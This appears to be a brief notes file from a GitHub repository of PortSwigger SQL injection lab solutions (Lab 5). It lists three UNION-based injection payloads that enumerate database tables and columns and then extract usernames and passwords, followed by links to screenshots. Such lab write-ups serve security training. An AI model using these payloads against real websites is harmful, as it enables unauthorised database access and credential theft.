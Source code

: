 'UNION+SELECT+table_name,null+from+information_schema.tables--
'UNION+SELECT+column_name,null+from+information_schema.columns+where+table_name%3d'users_fbihjt'--
'UNION+SELECT+username_wokopc,password_kwjcxb+from+users_fbihjt--
https://github.com/Harbeer-Singh/Portswigger-Labs/blob/main/SQL%20INJECTION/LAB-5/images/1.png
https://github.com/Harbeer-Singh/Portswigger-Labs/blob/main/SQL%20INJECTION/LAB-5/images/2.png
https://github.com/Harbeer-Singh/Portswigger-Labs/blob/main/SQL%20INJECTION/LAB-5/images/3.png
https://github.com/Harbeer-Singh/Portswigger-Labs/blob/main/SQL%20INJECTION/LAB-5/images/4.png
